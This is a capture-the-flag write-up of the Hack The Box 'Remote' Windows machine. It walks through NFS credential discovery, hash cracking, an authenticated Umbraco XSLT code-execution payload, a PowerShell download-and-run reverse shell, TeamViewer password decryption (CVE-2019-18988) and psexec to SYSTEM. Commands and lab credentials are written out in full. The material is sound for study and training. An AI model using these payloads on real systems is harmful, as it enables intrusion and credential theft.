

# [](#intro)Introduction

In this CTF, we are going to be exploiting an Windows system. Through a well done recon, we will be able to find disclosed credentials, get a reverse shell and then escalate our privileges inside the machine. You can access this machine [here](https://app.hackthebox.com/machines/234).

Let's take a look at it!


# [](#level-description)Challenge description

The challenge description is:

> Machine Info
>
> Remote is an easy difficulty Windows machine that features an Umbraco CMS installation. Credentials are found in a world-readable NFS share. Using these, an authenticated Umbraco CMS exploit is leveraged to gain a foothold. A vulnerable TeamViewer version is identified, from which we can gain a password. This password has been reused with the local administrator account. Using `psexec` with these credentials returns a SYSTEM shell. 

The challenge basically gave us all routes to do a good research and thorough recon. We need to find the credentials to log into the Umbraco CMS, where we will have an exploit (probably a CVE) that should give us a shell. From there, we exploit another CVE, but now for TeamViewer, to get the aministrator password. Finally, we get the SYSTEM shell using `psexec` from impacket.

# [](#approach)Approach mindset

Let's separate this into:

1. Reconnaissance
2. Getting foothold
3. Escalating privileges
4. Flags

But first, let's do our own recon as our step 1.

## [](#mindset-step0)Step 1 - Reconnaissance

The first thing we should do, is run `nmap` to see what services and ports are open. We shall start with a simple nmap:

```bash
kaizen@celestial /tmp/htb/ $ nmap -p- -T4 --min-rate 1000 -oN ports.nmap -A 10.129.229.68
# Nmap 7.94 scan initiated Sat Jan  6 10:36:32 2024 as: nmap -p- -T4 --min-rate 1000 -oN ports.nmap -A 10.129.229.68
Nmap scan report for 10.129.229.68
Host is up (0.29s latency).
Not shown: 65519 closed tcp ports (reset)
PORT      STATE SERVICE       VERSION
21/tcp    open  ftp           Microsoft ftpd
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp    open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Home - Acme Widgets
111/tcp   open  rpcbind?
| rpcinfo: 
|   program version    port/proto  service
|   100003  2,3         2049/udp   nfs
|   100003  2,3         2049/udp6  nfs
|   100003  2,3,4       2049/tcp   nfs
|   100003  2,3,4       2049/tcp6  nfs
|   100005  1,2,3       2049/tcp   mountd
|   100005  1,2,3       2049/tcp6  mountd
|   100005  1,2,3       2049/udp   mountd
|_  100005  1,2,3       2049/udp6  mountd
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
2049/tcp  open  mountd        1-3 (RPC #100005)
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49678/tcp open  msrpc         Microsoft Windows RPC
49679/tcp open  msrpc         Microsoft Windows RPC
49680/tcp open  msrpc         Microsoft Windows RPC
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94%E=4%D=1/6%OT=21%CT=1%CU=34700%PV=Y%DS=2%DC=T%G=Y%TM=65992EB7
OS:%P=x86_64-pc-linux-gnu)SEQ(SP=FB%GCD=1%ISR=10E%TI=I%CI=I%II=I%SS=S%TS=U)
OS:SEQ(SP=FB%GCD=1%ISR=10E%TI=I%CI=RD%II=I%SS=S%TS=U)OPS(O1=M53ANW8NNS%O2=M
OS:53ANW8NNS%O3=M53ANW8%O4=M53ANW8NNS%O5=M53ANW8NNS%O6=M53ANNS)WIN(W1=FFFF%
OS:W2=FFFF%W3=FFFF%W4=FFFF%W5=FFFF%W6=FF70)ECN(R=Y%DF=Y%T=80%W=FFFF%O=M53AN
OS:W8NNS%CC=Y%Q=)T1(R=Y%DF=Y%T=80%S=O%A=S+%F=AS%RD=0%Q=)T2(R=Y%DF=Y%T=80%W=
OS:0%S=Z%A=S%F=AR%O=%RD=0%Q=)T3(R=Y%DF=Y%T=80%W=0%S=Z%A=O%F=AR%O=%RD=0%Q=)T
OS:4(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=80%W=0%S=Z%A=S+
OS:%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y
OS:%T=80%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=80%IPL=164%UN=0%RIPL=G%
OS:RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=80%CD=Z)

Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2024-01-06T13:40:44
|_  start_date: N/A
|_clock-skew: 3h01m32s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

TRACEROUTE (using port 587/tcp)
HOP RTT       ADDRESS
1   258.93 ms 10.10.16.1
2   128.65 ms 10.129.229.68

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Jan  6 10:43:03 2024 -- 1 IP address (1 host up) scanned in 390.87 seconds
```

From this, we can see some interesting information. Let's address each one of them.

### Port 21

Nmap showed us that FTP port 21 is open and anonymous login is enabled. Let's take a look at it:

```bash
kaizen@celestial ~/CTFs/htb/machines/Remote $ ftp 10.129.229.68
Connected to 10.129.229.68.
220 Microsoft FTP Service
Name (10.129.229.68:kaizen): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password: 
230 User logged in.
Remote system type is Windows_NT.
ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
ftp> pwd
257 "/" is current directory.
```

As we can see, there is nothing in the FTP filesystem.

### Port 80

On port 80, we have the web service. 


Upon some clicks here and there, we end up at the login page:


From the machine description, we need to login into Umbraco CMS in order to exploit the vulnerability, so we are stuck here. Let's move to the next interesting ports.

### Ports 139, 445

These are related to SMB. I tried to enumerate these manually, but with not success. It seems it is for authenticated users only. Let's move to the NFS port.

### Port 2049

According to the machine description, the credentials to the Umbraco CMS lie somewhere in the NFS share. Let's use `showmount` to list available public shares:

```bash
(.pyvenv) kaizen@celestial /tmp/htb $ showmount -e 10.129.229.68
Export list for 10.129.229.68:
/site_backups (everyone)
```

So we are able to connect to `/site_backups` share. From its name, it seems to be the backup files that makes the website up running. To connect, we need to create a mount point first with `mkdir -p /tmp/mnt` for example. Using [HackTricks](https://book.hacktricks.xyz/network-services-pentesting/nfs-service-pentesting), we find the command to connect to the NFS share:

```bash
(.pyvenv) kaizen@celestial /tmp/htb $ sudo mount -t nfs -o vers=3,nolock $IP:/site_backups /tmp/mnt/
(.pyvenv) kaizen@celestial /tmp/htb $ cd /tmp/mnt
(.pyvenv) kaizen@celestial /tmp/mnt $ ls
App_Browsers  App_Plugins    bin     css           Global.asax  scripts  Umbraco_Client  Web.config
App_Data      aspnet_client  Config  default.aspx  Media        Umbraco  Views
```

Upon a quick research of where Umbraco stores passwords, we find [this](https://stackoverflow.com/questions/36979794/umbraco-database-connection-credentials) stackoverflow post. We see that it is inside `App_Data/Umbraco.sdf` file:

```bash
(.pyvenv) kaizen@celestial /tmp/mnt $ find . -name Umbraco.sdf -type f
./App_Data/Umbraco.sdf
```
If we try to cat it, we will see that it seems like a binary file: unreadable. Let's try to grep for `password`, `passwordhash` and `hash`. The last search yields:


Showing the password hash is `b8be16afba8c314ad33d812f22a04991b90e2aaa` and uses SHA1 hash. We can also see that the admin's email is `admin@htb.local`.

 We can use John The Ripper to crack this hash:

```bash
(.pyvenv) kaizen@celestial /tmp/htb $ john --format:RAW-SHA1 --wordlist:/usr/share/wordlists/seclists/Passwords/Leaked-Databases/rockyou.txt hash.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-SHA1 [SHA1 128/128 AVX 4x])
No password hashes left to crack (see FAQ)
(.pyvenv) kaizen@celestial /tmp/htb $ john --show hash.txt 
?:baconandcheese

1 password hash cracked, 0 left
```

### Back to website...

Now that we have the credentials `admin@htb.local:baconandcheese`, let's try and log in:



And we are in the website! Note that the Umbraco version used is 7.12.4.  Now, it's time to find an exploit for this online. A quick Google search `umbraco 7.12.4 exploit` leads to [this](https://www.exploit-db.com/exploits/49488) exploit. From the code, it seems to making a POST request to the `/umbraco/backoffice/UmbracoApi/Authentication/PostLogin` endpoint with this payload:

```python
payload = """\
<?xml version="1.0"?><xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:msxsl="urn:schemas-microsoft-com:xslt" xmlns:csharp_user="http://csharp.mycompany.com/mynamespace"><msxsl:script language="C#" implements-prefix="csharp_user">public string xml() { string cmd = "%s"; System.Diagnostics.Process proc = new System.Diagnostics.Process(); proc.StartInfo.FileName = "%s"; proc.StartInfo.Arguments = cmd; proc.StartInfo.UseShellExecute = false; proc.StartInfo.RedirectStandardOutput = true;  proc.Start(); string output = proc.StandardOutput.ReadToEnd(); return output; }  </msxsl:script><xsl:template match="/"> <xsl:value-of select="csharp_user:xml()"/> </xsl:template> </xsl:stylesheet>\
""" % (args.arguments, args.command)
```

From what I understood, this payload appears to be an XML file that uses XSLT with embedded C# code. XSLT is a language used for transforming XML documents into other formats. The payload is structured to not only perform a transformation but also execute C# code within the context of an XSLT processor that supports the msxsl:script extension.

The embedded C# code here is used to run arbitrary code passed by the `-c` and `-a` switches. The exploit has a line that says:

```python
#usage python exploit.py -u admin@example.org -p password123 -i 'http://10.0.0.1' -c ipconfig
```

Let's test it out!

```bash
(.pyvenv) kaizen@celestial /tmp/htb $ python exploit.py -u admin@htb.local -p baconandcheese -i http://10.129.14.142 -c ipconfig

Windows IP Configuration


Ethernet adapter Ethernet0 2:

   Connection-specific DNS Suffix  . : .htb
   IPv6 Address. . . . . . . . . . . : dead:beef::8a
   IPv6 Address. . . . . . . . . . . : dead:beef::d5a:847:7d7c:ae55
   Link-local IPv6 Address . . . . . : fe80::d5a:847:7d7c:ae55%12
   IPv4 Address. . . . . . . . . . . : 10.129.14.142
   Subnet Mask . . . . . . . . . . . : 255.255.0.0
   Default Gateway . . . . . . . . . : fe80::250:56ff:feb9:2bb5%12
                                       10.129.0.1
```

Amazing! We are able to execute arbitrary code server-side. Now, we must think of a way to spawn a reverse shell.

## [](#mindset-step2)Step 2 - Getting foothold

Upon a long search, I ended up with this powershell script from [Nishang](https://github.com/samratashok/nishang#anti-virus). As we can see, we can spawn a reverse shell if WIndows runs the following command:

```powershell
powershell -c iex (New-Object Net.WebClient).DownloadString('http://<yourwebserver>/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress [IP] -Port [PortNo.]
```

So, one way we could try to access the reverse shell is by running the exploit as this:

```bash
python exploit.py -u admin@htb.local -p baconandcheese -i 'http://10.129.14.142' -c 'cmd.exe' -a "/c powershell -c iex(new-object net.webclient).downloadstring('http://10.10.16.14/Invoke-PowerShellTcp.ps1');;Invoke-PowerShellTcp -Reverse -IPAddress 10.10.16.14 -Port 4444"
```
For that to work, we need to run a Python server where our `Invoke-PowerShellTcp.ps1` script is, and also run `nc -lnvp 4444` to receive the shell. 

```bash
kaizen@celestial /tmp/htb $ sudo python3 -m http.server 80
[sudo] password for root: 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

then, in another tab:

```bash
kaizen@celestial /tmp/htb $ nc -lnvp 4444
```

and finally, we run the exploit:

```bash
(.pyvenv) kaizen@celestial /tmp/htb $ python exploit.py -u admin@htb.local -p baconandcheese -i 'http://10.129.14.142' -c 'cmd.exe' -a "/c powershell -c iex(new-object net.webclient).downloadstring('http://10.10.16.14/Invoke-PowerShellTcp.ps1');;Invoke-PowerShellTcp -Reverse -IPAddress 10.10.16.14 -Port 4444"
```

In our netcat, we got a connection:

```bash
kaizen@celestial /tmp/htb $ nc -lnvp 4444
Connection from 10.129.14.142:49693
Windows PowerShell running as user REMOTE$ on REMOTE
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\windows\system32\inetsrv>whoami
iis apppool\defaultapppool
```

As we can see, we are not root, but we have access to the system. Let's now think of a way of escalate privileges.


## [](#mindset-step3)Step 3 - Escalating privileges

We first need to know where TeamViewer is running. For that, we can run:

```bash
PS C:\windows\system32\inetsrv> tasklist /svc
[...snip...]
svchost.exe                   2200 W3SVC, WAS                                  
vmtoolsd.exe                  2208 VMTools                                     
TeamViewer_Service.exe        2216 TeamViewer7                                 
svchost.exe                   2236 W32Time                                     
MsMpEng.exe                   2244 WinDefend     
[...snip...]
```

Now, we take a look on CVEs regarding TeamViewer7. After searching through lots of different CVEs, it seems that it is [this](https://www.cvedetails.com/cve/CVE-2019-18988/) one. Summarizing it, we have:

> TeamViewer Desktop through 14.7.1965 allows a bypass of remote-login access control because the same key is used for different customers' installations. It used a shared AES key for all installations since at least as far back as v7.0.43148, and used it for at least OptionsPasswordAES in the current version of the product. If an attacker were to know this key, they could decrypt protect information stored in the registry or configuration files of TeamViewer. With versions before v9.x , this allowed for attackers to decrypt the Unattended Access password to the system (which allows for remote login to the system as well as headless file browsing). The latest version still uses the same key for OptionPasswordAES but appears to have changed how the Unattended Access password is stored. While in most cases an attacker requires an existing session on a system, if the registry/configuration keys were stored off of the machine (such as in a file share or online), an attacker could then decrypt the required password to login to the system.

Basically, TeamViewer7 uses a weak encryption algorithm that can be cracked. Upon some more research, I've found [this](https://github.com/mr-r3b00t/CVE-2019-18988) GitHub repo contaning the exploit. Somehow, we need to run it inside the CTF machine. To do that, save the exploit on our local machine, pop a Python server. On the host machine, let's `cd C:\windows\temp\` and then:

```bash
PS C:\windows\temp> Invoke-WebRequest -Uri 'http://10.10.16.14/exploit.bat' -OutFile 'C:\windows\temp\exploit.bat'
PS C:\windows\temp> ls exploit.bat


    Directory: C:\windows\temp


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
-a----         1/6/2024  11:56 PM           1148 exploit.bat 
```

To run the exploit, we type in `.\exploit.bat`:

```bash
PS C:\windows\temp> .\exploit.bat

C:\windows\temp>REM # CVE-2019-18988 

C:\windows\temp>REM # Teamviewer Local Privesc 

C:\windows\temp>REM https://community.teamviewer.com/t5/Announcements/Specification-on-CVE-2019-18988/td-p/82264 

C:\windows\temp>reg query HKLM\SOFTWARE\WOW6432Node\TeamViewer\Version7 /v Version 

HKEY_LOCAL_MACHINE\SOFTWARE\WOW6432Node\TeamViewer\Version7
    Version    REG_SZ    7.0.43148


C:\windows\temp>reg query HKLM\SOFTWARE\WOW6432Node\TeamViewer\Version7 

HKEY_LOCAL_MACHINE\SOFTWARE\WOW6432Node\TeamViewer\Version7
    StartMenuGroup    REG_SZ    TeamViewer 7
    InstallationDate    REG_SZ    2020-02-20
    InstallationDirectory    REG_SZ    C:\Program Files (x86)\TeamViewer\Version7
    Always_Online    REG_DWORD    0x1
    Security_ActivateDirectIn    REG_DWORD    0x0
    Version    REG_SZ    7.0.43148
    ClientIC    REG_DWORD    0x11f25831
    PK    REG_BINARY    BFAD2AEDB6C89AE0A0FD0501A0C5B9A5C0D957A4CC57C1884C84B6873EA03C069CF06195829821E28DFC2AAD372665339488DD1A8C85CDA8B19D0A5A2958D86476D82CA0F2128395673BA5A39F2B875B060D4D52BE75DB2B6C91EDB28E90DF7F2F3FBE6D95A07488AE934CC01DB8311176AEC7AC367AB4332ABD048DBFC2EF5E9ECC1333FC5F5B9E2A13D4F22E90EE509E5D7AF4935B8538BE4A606AB06FE8CC657930A24A71D1E30AE2188E0E0214C8F58CD2D5B43A52549F0730376DD3AE1DB66D1E0EBB0CF1CB0AA7F133148D1B5459C95A24DDEE43A76623759017F21A1BC8AFCD1F56FD0CABB340C9B99EE3828577371B7ADA9A8F967A32ADF6CF062B00026C66F8061D5CFF89A53EAE510620BC822BC6CC615D4DE093BC0CA8F5785131B75010EE5F9B6C228E650CA89697D07E51DBA40BF6FC3B2F2E30BF6F1C01F1BC2386FA226FFFA2BE25AE33FA16A2699A1124D9133F18B50F4DB6EDA2D23C2B949D6D2995229BC03507A62FCDAD55741B29084BD9B176CFAEDAAA9D48CBAF2C192A0875EC748478E51156CCDD143152125AE7D05177083F406703ED44DCACCD48400DD88A568520930BED69FCD672B15CD3646F8621BBC35391EAADBEDD04758EE8FC887BACE6D8B59F61A5783D884DBE362E2AC6EAC0671B6B5116345043257C537D27A8346530F8B7F5E0EBACE9B840E716197D4A0C3D68CFD2126E8245B01E62B4CE597AA3E2074C8AB1A4583B04DBB13F13EB54E64B850742A8E3E8C2FAC0B9B0CF28D71DD41F67C773A19D7B1A2D0A257A4D42FC6214AB870710D5E841CBAFCD05EF13B372F36BF7601F55D98ED054ED0F321AEBA5F91D390FF0E8E5815E6272BA4ABB3C85CF4A8B07851903F73317C0BC77FA12A194BB75999319222516
    SK    REG_BINARY    F82398387864348BAD0DBB41812782B1C0ABB9DAEEF15BC5C3609B2C5652BED7A9A07EA41B3E7CB583A107D39AFFF5E06DF1A06649C07DF4F65BD89DE84289D0F2CBF6B8E92E7B2901782BE8A039F2903552C98437E47E16F75F99C07750AEED8CFC7CD859AE94EC6233B662526D977FFB95DD5EB32D88A4B8B90EC1F8D118A7C6D28F6B5691EB4F9F6E07B6FE306292377ACE83B14BF815C186B7B74FFF9469CA712C13F221460AC6F3A7C5A89FD7C79FF306CEEBEF6DE06D6301D5FD9AB797D08862B9B7D75B38FB34EF82C77C8ADC378B65D9ED77B42C1F4CB1B11E7E7FB2D78180F40C96C1328970DA0E90CDEF3D4B79E08430E546228C000996D846A8489F61FE07B9A71E7FB3C3F811BB68FDDF829A7C0535BA130F04D9C7C09B621F4F48CD85EA97EF3D79A88257D0283BF2B78C5B3D4BBA4307D2F38D3A4D56A2706EDAB80A7CE20E21099E27481C847B49F8E91E53F83356323DDB09E97F45C6D103CF04693106F63AD8A58C004FC69EF8C506C553149D038191781E539A9E4E830579BCB4AD551385D1C9E4126569DD96AE6F97A81420919EE15CF125C1216C71A2263D1BE468E4B07418DE874F9E801DA2054AD64BE1947BE9580D7F0E3C138EE554A9749C4D0B3725904A95AEBD9DACCB6E0C568BFA25EE5649C31551F268B1F2EC039173B7912D6D58AA47D01D9E1B95E3427836A14F71F26E350B908889A95120195CC4FD68E7140AA8BB20E211D15C0963110878AAB530590EE68BF68B42D8EEEB2AE3B8DEC0558032CFE22D692FF5937E1A02C1250D507BDE0F51A546FE98FCED1E7F9DBA3281F1A298D66359C7571D29B24D1456C8074BA570D4D0BA2C3696A8A9547125FFD10FBF662E597A014E0772948F6C5F9F7D0179656EAC2F0C7F
    LastMACUsed    REG_MULTI_SZ    \0005056B0A059
    MIDInitiativeGUID    REG_SZ    {514ed376-a4ee-4507-a28b-484604ed0ba0}
    MIDVersion    REG_DWORD    0x1
    ClientID    REG_DWORD    0x6972e4aa
    CUse    REG_DWORD    0x1
    LastUpdateCheck    REG_DWORD    0x64c273d8
    UsageEnvironmentBackup    REG_DWORD    0x1
    SecurityPasswordAES    REG_BINARY    FF9B1C73D66BCE31AC413EAE131B464F582F6CE2D1E1F3DA7E8D376B26394E5B
    MultiPwdMgmtIDs    REG_MULTI_SZ    admin
    MultiPwdMgmtPWDs    REG_MULTI_SZ    357BC4C8F33160682B01AE2D1C987C3FE2BAE09455B94A1919C4CD4984593A77
    Security_PasswordStrength    REG_DWORD    0x3

HKEY_LOCAL_MACHINE\SOFTWARE\WOW6432Node\TeamViewer\Version7\AccessControl
HKEY_LOCAL_MACHINE\SOFTWARE\WOW6432Node\TeamViewer\Version7\DefaultSettings

C:\windows\temp>reg query HKLM\SOFTWARE\TeamViewer\Temp /v SecurityPasswordExported 

C:\windows\temp>reg query HKLM\SOFTWARE\WOW6432Node\TeamViewer\Version7 

HKEY_LOCAL_MACHINE\SOFTWARE\WOW6432Node\TeamViewer\Version7
    StartMenuGroup    REG_SZ    TeamViewer 7
    InstallationDate    REG_SZ    2020-02-20
    InstallationDirectory    REG_SZ    C:\Program Files (x86)\TeamViewer\Version7
    Always_Online    REG_DWORD    0x1
    Security_ActivateDirectIn    REG_DWORD    0x0
    Version    REG_SZ    7.0.43148
    ClientIC    REG_DWORD    0x11f25831
    PK    REG_BINARY    BFAD2AEDB6C89AE0A0FD0501A0C5B9A5C0D957A4CC57C1884C84B6873EA03C069CF06195829821E28DFC2AAD372665339488DD1A8C85CDA8B19D0A5A2958D86476D82CA0F2128395673BA5A39F2B875B060D4D52BE75DB2B6C91EDB28E90DF7F2F3FBE6D95A07488AE934CC01DB8311176AEC7AC367AB4332ABD048DBFC2EF5E9ECC1333FC5F5B9E2A13D4F22E90EE509E5D7AF4935B8538BE4A606AB06FE8CC657930A24A71D1E30AE2188E0E0214C8F58CD2D5B43A52549F0730376DD3AE1DB66D1E0EBB0CF1CB0AA7F133148D1B5459C95A24DDEE43A76623759017F21A1BC8AFCD1F56FD0CABB340C9B99EE3828577371B7ADA9A8F967A32ADF6CF062B00026C66F8061D5CFF89A53EAE510620BC822BC6CC615D4DE093BC0CA8F5785131B75010EE5F9B6C228E650CA89697D07E51DBA40BF6FC3B2F2E30BF6F1C01F1BC2386FA226FFFA2BE25AE33FA16A2699A1124D9133F18B50F4DB6EDA2D23C2B949D6D2995229BC03507A62FCDAD55741B29084BD9B176CFAEDAAA9D48CBAF2C192A0875EC748478E51156CCDD143152125AE7D05177083F406703ED44DCACCD48400DD88A568520930BED69FCD672B15CD3646F8621BBC35391EAADBEDD04758EE8FC887BACE6D8B59F61A5783D884DBE362E2AC6EAC0671B6B5116345043257C537D27A8346530F8B7F5E0EBACE9B840E716197D4A0C3D68CFD2126E8245B01E62B4CE597AA3E2074C8AB1A4583B04DBB13F13EB54E64B850742A8E3E8C2FAC0B9B0CF28D71DD41F67C773A19D7B1A2D0A257A4D42FC6214AB870710D5E841CBAFCD05EF13B372F36BF7601F55D98ED054ED0F321AEBA5F91D390FF0E8E5815E6272BA4ABB3C85CF4A8B07851903F73317C0BC77FA12A194BB75999319222516
    SK    REG_BINARY    F82398387864348BAD0DBB41812782B1C0ABB9DAEEF15BC5C3609B2C5652BED7A9A07EA41B3E7CB583A107D39AFFF5E06DF1A06649C07DF4F65BD89DE84289D0F2CBF6B8E92E7B2901782BE8A039F2903552C98437E47E16F75F99C07750AEED8CFC7CD859AE94EC6233B662526D977FFB95DD5EB32D88A4B8B90EC1F8D118A7C6D28F6B5691EB4F9F6E07B6FE306292377ACE83B14BF815C186B7B74FFF9469CA712C13F221460AC6F3A7C5A89FD7C79FF306CEEBEF6DE06D6301D5FD9AB797D08862B9B7D75B38FB34EF82C77C8ADC378B65D9ED77B42C1F4CB1B11E7E7FB2D78180F40C96C1328970DA0E90CDEF3D4B79E08430E546228C000996D846A8489F61FE07B9A71E7FB3C3F811BB68FDDF829A7C0535BA130F04D9C7C09B621F4F48CD85EA97EF3D79A88257D0283BF2B78C5B3D4BBA4307D2F38D3A4D56A2706EDAB80A7CE20E21099E27481C847B49F8E91E53F83356323DDB09E97F45C6D103CF04693106F63AD8A58C004FC69EF8C506C553149D038191781E539A9E4E830579BCB4AD551385D1C9E4126569DD96AE6F97A81420919EE15CF125C1216C71A2263D1BE468E4B07418DE874F9E801DA2054AD64BE1947BE9580D7F0E3C138EE554A9749C4D0B3725904A95AEBD9DACCB6E0C568BFA25EE5649C31551F268B1F2EC039173B7912D6D58AA47D01D9E1B95E3427836A14F71F26E350B908889A95120195CC4FD68E7140AA8BB20E211D15C0963110878AAB530590EE68BF68B42D8EEEB2AE3B8DEC0558032CFE22D692FF5937E1A02C1250D507BDE0F51A546FE98FCED1E7F9DBA3281F1A298D66359C7571D29B24D1456C8074BA570D4D0BA2C3696A8A9547125FFD10FBF662E597A014E0772948F6C5F9F7D0179656EAC2F0C7F
    LastMACUsed    REG_MULTI_SZ    \0005056B0A059
    MIDInitiativeGUID    REG_SZ    {514ed376-a4ee-4507-a28b-484604ed0ba0}
    MIDVersion    REG_DWORD    0x1
    ClientID    REG_DWORD    0x6972e4aa
    CUse    REG_DWORD    0x1
    LastUpdateCheck    REG_DWORD    0x64c273d8
    UsageEnvironmentBackup    REG_DWORD    0x1
    SecurityPasswordAES    REG_BINARY    FF9B1C73D66BCE31AC413EAE131B464F582F6CE2D1E1F3DA7E8D376B26394E5B
    MultiPwdMgmtIDs    REG_MULTI_SZ    admin
    MultiPwdMgmtPWDs    REG_MULTI_SZ    357BC4C8F33160682B01AE2D1C987C3FE2BAE09455B94A1919C4CD4984593A77
    Security_PasswordStrength    REG_DWORD    0x3

HKEY_LOCAL_MACHINE\SOFTWARE\WOW6432Node\TeamViewer\Version7\AccessControl
HKEY_LOCAL_MACHINE\SOFTWARE\WOW6432Node\TeamViewer\Version7\DefaultSettings

C:\windows\temp>reg query HKLM\SOFTWARE\TeamViewer\Version7 

C:\windows\temp>reg query HKLM\SOFTWARE\WOW6432Node\TeamViewer\Version7 /v SecurityPasswordExported 


C:\windows\temp>reg query HKLM\SOFTWARE\WOW6432Node\TeamViewer\Version7 /v ServerPasswordAES  


C:\windows\temp>reg query HKLM\SOFTWARE\WOW6432Node\TeamViewer\Version7 /v ProxyPasswordAES 


C:\windows\temp>reg query HKLM\SOFTWARE\WOW6432Node\TeamViewer\Version7 /v LicenseKeyAES 


C:\windows\temp>reg query HKLM\SOFTWARE\WOW6432Node\TeamViewer\Version7 /v OptionsPassword 


C:\windows\temp>reg query HKLM\SOFTWARE\WOW6432Node\TeamViewer\Version7 /v PermanentPassword 


C:\windows\temp>REM CYBERCHEF RECIPE  

C:\windows\temp>REM AES_Decrypt({'option':'Hex','string':'0602000000a400005253413100040000'},{'option':'Hex','string':'0100010067244F436E6762F25EA8D704'},'CBC','Hex','Raw',{'option':'Hex','string':''})Decode_text('UTF-16LE (1200)') 
PS C:\windows\temp> The system was unable to find the specified registry key or value.
```

From this huge output, we find three things: first, the encrypted HEX password is `FF9B1C73D66BCE31AC413EAE131B464F582F6CE2D1E1F3DA7E8D376B26394E5B`. Second, we have the AES encryption key, which is `0602000000a400005253413100040000`. Finally, we have the IV, which is `0100010067244F436E6762F25EA8D704`. We can go to [Cyberchef](https://gchq.github.io) and select AES decrypt recipe. Here is the result:


Showing the admin password is `!R3m0te!`.

## [](#mindset-step4)Step 4 - Solving!

Now that we have the admin password, we can use `psexec.py`, as stated by the machine info, to get the SYSTEM shell. To do so, we simply run:

```bash
kaizen@celestial ~ $ psexec.py 'administrator:!R3m0te!@10.129.14.142'
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] Requesting shares on 10.129.14.142.....
[*] Found writable share ADMIN$
[*] Uploading file lAgjnpRc.exe
[*] Opening SVCManager on 10.129.14.142.....
[*] Creating service eGkl on 10.129.14.142.....
[*] Starting service eGkl.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system
```

And voilà! We have our SYSTEM shell! Now, we retrieve all flags:

```bash
C:\Windows\system32> type c:\users\public\user.txt
aa3d4bb0861760843cb76a9d9f92190a

C:\Windows\system32> type c:\users\administrator\desktop\root.txt
a033160985b82a79d7188f9c1974a8fc
```

# [](#conclusions)Conclusion

In this CTF, we learned a bit more Common Vulnerabilities: one regarding outdated Umbraco CMS; and the other, a CVE that retrieves TeamViewer password hases that can later be used to get the SYSTEM shell. Nothing too fancy, yet super thoughtful!

I hope you liked this write-up and learned something new. As always, don't forget to do your **research!**

<a href="/">Go back</a>

